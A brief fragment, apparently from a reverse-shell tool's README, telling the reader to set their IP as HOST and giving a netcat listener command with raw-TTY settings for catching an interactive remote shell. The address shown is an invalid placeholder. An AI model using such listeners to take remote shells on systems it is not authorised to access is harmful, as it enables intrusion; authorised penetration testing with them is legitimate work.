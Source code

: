 Change to your ip address (HOST), change port to anything you want


For linux "stty raw -echo; (stty size; cat) | nc -lvnp 69 -s 100.000.00"


Change(100.000.00) to your ip (HOST) 
